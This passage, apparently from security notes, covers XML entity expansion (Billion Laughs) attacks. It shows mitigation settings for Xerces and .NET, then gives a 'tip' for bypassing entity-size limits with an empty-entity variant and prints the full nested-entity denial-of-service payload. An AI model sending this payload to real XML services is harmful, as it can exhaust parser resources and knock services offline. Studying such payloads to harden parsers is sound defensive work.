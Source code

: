 ```

if (argc != 2) {
cerr << "Usage: lol_no_vuln lol.xml" << endl;
return EXIT_FAILURE;
}

const char* xmlFile = argv[1];
try {
parser.parse(xmlFile);
} catch (...) {
}
return 0;
}
```

##### Explanation

In Xerces, the way to mitigate the Billion Laughs attack is to create a SecurityManager and set an Entity Expansion Limit, which is the number of entities an entity can expand to.  If the number of entity expansions bypasses this limit, Xerces throws a SAXParserException.  This easily prevents the Exponential Entity Expansion Attack, and if set low enough, will prevent crippling Quadratic Blowup attacks, although this is not as effective at preventing Quadratic Blowup Attacks as it is Exponential Entity Expansion Attacks.  The Entity Expansion Limit does not protect against external entity attacks.

#### .NET
```
XmlReaderSettings settings = new XmlReaderSettings();
settings.ProhibitDtd = false;
settings.MaxCharactersFromEntities = 1024;
XmlReader reader = XmlReader.Create(stream, settings);
```

#### Explanation
Limit server to expand to a maximum of 1Mb in size of entity.


### Tips
By pass entity size by sending _null_ entity. It will not restrict by entity size, but DoS on XML process all the blob. In conclusion it quite less impact than the original one, but still visible result.
```
<!DOCTYPE root [
<!ELEMENT root ANY>
<!ENTITY LOL “”>
<!ENTITY LOL1 “&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;”>
<!ENTITY LOL2 “&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;”>
<!ENTITY LOL3 “&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;”>
<!ENTITY LOL4 “&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;”>
<!ENTITY LOL5 “&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;”>
<!ENTITY LOL6 “&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;”>
<!ENTITY LOL7 “&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;”>
<!ENTITY LOL8 “&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;”>
<!ENTITY LOL9 “&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;”>
]>
<root>&LOL9;</root>
```


## Reference
- [XXE Bomb explain](https://cytinus.wordpress.com/2011/07/26/37/)
- [Null attack](https://medium.com/tsscyber/the-billion-silent-laughs-attack-that-time-incapsula-was-vulnerable-to-a-dos-attack-e8b546c10981)
